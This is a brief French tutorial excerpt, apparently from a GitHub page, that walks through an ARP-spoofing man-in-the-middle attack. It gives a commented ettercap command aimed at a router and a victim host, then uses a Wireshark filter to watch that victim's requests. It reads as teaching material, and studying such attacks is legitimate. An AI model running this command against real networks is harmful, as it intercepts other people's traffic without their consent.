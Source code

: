 ## "Man in the Middle" (MITM)

```bash
# -T : indique que l'on veut que du texte en sortie (`printf`) (nous utiliserons Wireshark plus tard)
# -S : on ne fait pas de certificat SSL. on ne pourra donc pas intercepter le traffic https mais c'est suffisant pour notre exemple
# -i : interface réseau
# -M :  indique que l'on veut activer l'attaque man in the middle
#       arp:remote // on veut faire une attaque ARP
sudo ettercap -T -S -i wlan0 -M arp:remote /10.0.0.1// /10.0.0.129//
#                                                  ^ routeur   ^^^ la machine qu'on veut attaquer
```

On ouvre **Wireshark** sur l'interface `wlan0`.

Ici, on peut appliquer des filtres tel que `ip.addr == 10.0.0.129`
qui va uniquement afficher les requetes de l'appareil qu'on veut attaquer.

Maintenant on peut voir toutes les requêtes effectuées.
